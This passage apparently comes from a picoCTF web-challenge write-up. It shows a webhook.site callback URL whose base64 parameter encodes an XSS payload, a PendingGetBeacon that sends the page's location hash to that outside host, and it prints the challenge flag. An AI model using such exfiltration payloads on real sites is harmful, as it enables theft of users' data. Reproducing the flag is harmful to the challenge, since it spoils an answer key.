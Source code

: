 
Then we got base64 request from webhook:
```https://webhook.site/09e19f10-a88e-405c-b6c1-4870e0c497d5/?e=eyJyZWNpcGUiOltbIkV4cGxvaXQiLCJXZWIgRGVzaWduIl1dLCJ4c3MiOiJuZXcgUGVuZGluZ0dldEJlYWNvbignaHR0cHM6Ly93ZWJob29rLnNpdGUvMDllMTlmMTAtYTg4ZS00MDVjLWI2YzEtNDg3MGUwYzQ5N2Q1Lz9lPScgKyB3aW5kb3cubG9jYXRpb24uaGFzaC5zbGljZSgxKSwge3RpbWVvdXQ6IDEwMDB9KTsiLCJmbGFnIjoicGljb0NURntsaXR0bGVfYWxjaGVteV93YXNfdGhlXzBnX2dhbWVfZG9lc19hbnlvbmVfcmVtZW1iM3JfOTg4OWZkNGF9IGJ0dyBjb250YWN0IG1lIG9uIGRpc2NvcmQgd2l0aCB1ciBzb2x1dGlvbiB0aGFua3MgQGVoaHRoaW5nXG4ifQ==```

> picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}
